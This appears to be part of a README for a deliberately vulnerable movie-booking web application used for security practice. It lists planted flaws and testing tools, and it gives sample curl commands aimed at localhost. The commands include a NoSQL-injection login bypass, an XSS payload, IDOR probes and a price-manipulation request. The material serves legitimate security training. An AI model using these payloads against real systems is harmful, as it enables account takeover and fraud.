 ### Access Control
- [ ] IDOR in booking access
- [ ] IDOR in ticket access by number
- [ ] Broken access control in user profiles
- [ ] Privilege escalation via hardcoded credentials

### Business Logic
- [ ] Price manipulation in booking
- [ ] Race condition in seat reservation

### Information Disclosure
- [ ] Debug endpoint exposure
- [ ] Verbose error messages
- [ ] Sensitive data exposure in API responses

## Security Testing Tools

### Recommended Tools for Testing
- **Burp Suite** - Web application security testing
- **OWASP ZAP** - Automated security scanning
- **SQLMap** - SQL injection testing
- **XSSHunter** - XSS payload testing
- **Postman** - API endpoint testing

### Sample Testing Commands

```bash
# NoSQL injection test
curl -X POST http://localhost:5001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username": {"$ne": null}, "password": {"$ne": null}}'

# XSS test in search
curl "http://localhost:5173/movies?search=%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E"

# IDOR test
curl http://localhost:5001/api/bookings/1
curl http://localhost:5001/api/bookings/2

# Price manipulation test
curl -X POST http://localhost:5001/api/bookings \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -d '{"movieId": "1", "seats": 2, "totalPrice": 0.01, "showTime": "19:00"}'
```

## Monitoring and Logging

### Application Logs
- Server logs: `server/logs/`
- Access logs: Monitor API endpoint usage
- Error logs: Track vulnerability exploitation attempts
